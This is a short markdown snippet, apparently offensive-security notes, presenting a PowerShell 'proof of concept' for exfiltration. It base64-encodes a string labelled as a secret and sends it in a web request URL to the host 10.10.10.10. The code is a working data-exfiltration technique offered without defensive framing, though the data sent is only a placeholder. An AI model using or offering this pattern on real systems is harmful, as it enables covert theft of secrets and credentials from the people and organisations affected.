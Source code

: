 # powershell

## simple base64 encoded web request proof of concept

```
$Text = ‘This is a secret and should be hidden’
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
Invoke-WebRequest -Uri http://10.10.10.10/$EncodedText
```

